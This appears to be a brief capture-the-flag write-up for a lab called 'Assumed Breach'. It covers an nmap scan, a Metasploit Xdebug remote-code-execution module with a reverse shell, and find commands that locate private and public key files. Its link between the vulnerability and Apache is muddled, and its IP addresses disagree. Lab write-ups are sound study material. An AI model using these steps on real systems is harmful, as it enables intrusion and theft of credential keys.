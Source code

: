 ```yaml
---
layout: post
title:  "CTFLive - Assumed Breach"
postid: writeup
categories: CTFLive
---
```


<br />

# Hunting Artifacts
Kali IP: 192.117.250.2
Target IP: 192.117.250.3

Get 3 private and public keys

<br />

# Nmap Scan
nmap -sC -sV 192.141.136.3

80
* http-title: XODA
* Apache 2.4.7
* httponly flag not set

3306
* mysql protocol 10

OS: 5.5.47-0ubuntu04.04.1

<br />

# Vulnerability due to scan
Per Google Apache 2.4.7 has vulnerability in the eval command present in Xdebug versions 2.5.5 and below. This allows the attacker to execute arbitrary php code as the context of the web user. 

<https://www.rapid7.com/db/modules/exploit/unix/http/xdebug_unauth_exec>

<br />

# Metasploit
```
> use exploit/unix/http/xdebug_unauth_exec
> show options
> set RHOST and LHOST for reversetcp
> exploit
```
```
> shell
$ cd .
$ find . -type f -name '*.pub'
$ find . -tyep f -name 'user_private'
```

Public Key
* ./opt/######.pub
* ./tmp/######.pub
* ./usr/local/bin/#####.pub

Private Key
* /usr/local/share/######
* /usr/bin/###########
* /var/######

**Flags were regarding names of files**